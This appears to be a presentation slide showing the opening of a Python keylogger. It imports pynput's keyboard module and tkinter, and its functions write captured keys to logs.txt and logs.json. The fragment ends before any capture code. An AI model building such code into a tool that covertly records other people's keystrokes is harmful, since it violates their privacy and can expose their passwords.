

Code:
from tkinter import *
import tkinter as tk
from pynput import keyboard
import json
keylogger=None
key_list = []
x = False
key_strokes=""
def update_txt_file(key):
    with open('logs.txt','w+') as key_stroke:
        key_stroke.write(key)
def update_json_file(key_list):
    with open('logs.json','+wb') as key_log:
        key_list_bytes = json.dumps(key_list).encode()
        key_log.write(key_list_bytes)